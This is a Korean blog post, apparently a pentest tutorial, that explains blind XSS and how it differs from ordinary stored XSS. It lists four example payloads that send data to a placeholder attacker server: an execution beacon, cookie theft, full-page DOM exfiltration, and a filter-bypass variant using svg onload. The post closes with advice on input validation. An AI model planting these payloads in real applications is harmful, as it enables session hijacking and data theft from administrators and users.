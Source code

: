 ```yaml
---
layout: post
title:  "[웹 모의해킹] Blind XSS 란?"
date:   2025-07-10 21:03:00 +0900
categories: [Security]
tags: [xss, blind xss, 블라인드 xss]
---
```



# [웹 모의해킹] Blind XSS 란?

## 1. 블라인드 XSS(Blind XSS)란?

  - 블라인드 XSS는 공격자가 삽입한 악성 스크립트(페이로드)가 **"즉시 실행 결과를 반환하지 않고"**, 예측할 수 없는 시점과 장소에서 실행되는 **Stored XSS(저장형 XSS)**의 한 유형 입니다.
  - 일반적인 Stored XSS는 **공격자가 게시판에 악성 스크립트를 포함한 글을 작성**하면, **다른 사용자가 그 글을 읽는 즉시 공격이 실행되는 것을 확인**할 수 있습니다. 
  - 하지만 블라인드 XSS는 공격자가 입력한 페이로드가 데이터베이스 등에 저장되었다가, 공격자의 접근 권한이 없는 다른 페이지
  (예: 관리자 페이지, 내부 로그 분석 시스템 등)에서 해당 데이터를 조회할 때 비로소 실행됩니다.
  
---

### **주요 특징**

- **저장형 XSS의 하위 개념**
    - 악성 스크립트가 서버(데이터베이스, 로그 파일 등)에 저장된다는 점에서 저장형 XSS와 동일합니다.
- **예측 불가능한 실행 위치**
    - 스크립트가 일반 사용자 페이지가 아닌, **관리자 페이지, 내부 모니터링 시스템, 로그 분석기** 등 예상치 못한 곳에서 실행됩니다.
- **긴 잠복기**
    - 공격 스크립트가 삽입된 후 실행되기까지 몇 시간, 며칠, 심지어 몇 달이 걸릴 수도 있습니다.

---


## 2. 일반적인 저장형 XSS와의 차이점

알고 계신 일반적인 저장형 XSS와 블라인드 XSS의 가장 큰 차이점은 **'결과 확인의 즉시성'** 입니다.

| 구분 | 일반 저장형 XSS | 블라인드 XSS |
| :--- | :--- | :--- |
| **실행 위치** | 예측 가능 (게시판 등) | 예측 불가능 (관리자 페이지 등) |
| **결과 확인** | 직접 확인 가능 | 외부 콜백(Callback)으로 확인 |
| **주요 대상** | 일반 사용자 | 관리자 등 고권한자 |

---

## 3. 대표적인 페이로드(Payloads)

- 블라인드 XSS는 공격 결과를 직접 볼 수 없으므로, 페이로드의 핵심은 **"스크립트가 실행되었다는 사실"**과 **"탈취한 정보"**를 **"외부에서 확인"**할 수 있도록 하는 것 입니다.
- 이를 위해 보통 공격자가 제어할 수 있는 외부 서버로 정보를 전송하는 **"콜백(Callback) 형태의 페이로드"**를 사용 합니다.

### 1. 간단한 실행 확인 페이로드
- 가장 기본적인 페이로드는 스크립트가 실행되었음을 공격자의 서버로 알리는 것입니다. script 태그를 이용하는 것이 일반적입니다.

~~~javascript
<script>
  new Image().src="http://[ATTACKER_SERVER]/log?trigger=success";
</script> 
~~~

#### 1-1) 작동 원리
- new Image().src는 이미지 객체를 생성하고 src 속성에 명시된 URL로 HTTP 요청을 보냅니다. 
- 브라우저는 이 요청을 보내면서 공격자 서버의 로그에 기록을 남기게 됩니다. 이를 통해 공격자는 스크립트가 실행되었음을 알 수 있습니다.

---

### 2. 쿠키 정보 탈취 페이로드
- 관리자나 다른 사용자의 세션을 탈취하기 위해 쿠키 정보를 외부로 빼돌리는 페이로드입니다
~~~javascript
<script>
  new Image().src="http://[ATTACKER_SERVER]/log?cookie=" + btoa(document.cookie);
</script>
~~~

#### 2-1) 작동 원리
- document.cookie로 현재 페이지의 쿠키 정보를 가져옵니다. b
- toa() 함수를 사용해 쿠키 값을 Base64로 인코딩하여 URL 파라미터로 전송 시 발생할 수 있는 특수문자 문제를 방지합니다.
- 공격자는 자신의 서버 로그에서 인코딩된 쿠키 값을 확인할 수 있습니다.

---

### 3. 페이지의 DOM 정보 탈취 페이로드
- 스크립트가 실행된 페이지의 전체 HTML 구조(DOM)를 훔쳐내어, 내부 시스템의 구조나 숨겨진 정보를 파악하는 데 사용됩니다.
~~~javascript
<script>
  fetch('http://[ATTACKER_SERVER]/log', {
    method: 'POST',
    body: btoa(document.documentElement.outerHTML),
    headers: {'Content-Type': 'text/plain'}
  });
</script>
~~~

#### 3-1) 작동 원리
- document.documentElement.outerHTML로 현재 페이지의 html 태그를 포함한 전체 HTML을 가져옵니다.
- fetch API를 사용하여 POST 방식으로 공격자의 서버에 전송합니다.
- **대량의 데이터를 보내야** 하므로 GET 방식의 Image 트릭보다 **POST 방식이 더 적합**합니다.

---

### 4. 이벤트 핸들러를 이용한 우회 페이로드
- script 태그가 필터링될 경우, 다른 HTML 태그의 이벤트 핸들러를 이용해 스크립트를 실행할 수 있습니다.

~~~javascript
<svg onload="new Image().src='http://[ATTACKER_SERVER]/log?data='+btoa(document.cookie)">
~~~

#### 4-1) 작동 원리
- svg 태그가 로드될 때 onload 이벤트가 발생하며, 여기에 포함된 자바스크립트 코드가 실행됩니다. 
- 이 외에도 img onerror="..." / input onfocus="..." 등 다양한 이벤트 핸들러를 활용할 수 있습니다.


---

<br>

이처럼 블라인드 XSS는 즉각적인 피드백이 없어 탐지가 어렵지만, 일단 성공하면 관리자 권한 탈취, 내부망 정보 유출 등 심각한 피해로 이어질 수 있는 강력한 공격 기법입니다. 

따라서 개발 단계부터 사용자 입력값에 대한 철저한 검증과 시큐어 코딩 원칙을 준수하는 것이 매우 중요합니다.

<br>

---